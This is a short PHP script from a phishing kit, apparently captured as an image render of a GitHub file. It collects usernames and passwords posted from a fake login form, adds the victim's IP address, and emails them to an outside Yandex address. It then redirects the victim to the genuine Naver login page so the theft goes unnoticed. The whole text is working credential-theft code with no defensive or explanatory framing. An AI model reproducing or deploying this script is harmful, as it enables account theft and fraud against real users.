 <?php

$ip = getenv("REMOTE_ADDR");

$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Username   : ".$_POST['id']."\n";
$message .= "Password   : ".$_POST['pw']."\n";
$message .= "IP Address : ".$ip."\n";
$message .= "-----------  !Thuglife_Legend+ !  -----------\n";
$send = "eazy.lion@yandex.com";

$subject = "makavelli ! xD $ip";
$headers = "From:  <info@notime>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
    

header("Location: https://nid.naver.com/nidlogin.login?url=http%3A%2F%2Fmail.naver.com%2F");

?>


